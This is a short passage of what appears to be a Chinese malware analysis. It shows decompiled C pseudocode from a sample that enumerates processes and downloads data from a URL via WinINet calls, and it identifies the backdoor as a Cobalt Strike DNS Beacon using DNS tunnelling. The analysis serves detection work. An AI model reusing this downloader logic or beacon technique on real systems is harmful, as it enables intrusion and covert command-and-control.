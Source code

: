 ```c
        if ( v0 == 4 )
          break;
      }
      if ( !Process32NextW(v1, &pe) )
        goto LABEL_6;



样本下载：
  v8 = InternetOpenW(L"update", 0, 0, 0, 0);
  v9 = &lpszUrl;
  if ( (unsigned int)a6 >= 8 )
    v9 = (void *)lpszUrl;
  hInternet = v8;
  v10 = InternetOpenUrlW(v8, (LPCWSTR)v9, 0, 0, 0, 0);
  if ( v10 && dwNumberOfBytesRead )
  {
    do
    {
      InternetReadFile(v10, &Buffer, 0x400u, &dwNumberOfBytesRead);


```



后门采用的是

Cobalt Strike之DNS Beacon  即 DNS 通信后门

通信指令采用数字表示，针对DNS隧道通信后续进行专门识别。




参考链接：

https://www.freebuf.com/articles/network/201836.html
https://www.freebuf.com/sectool/127125.html

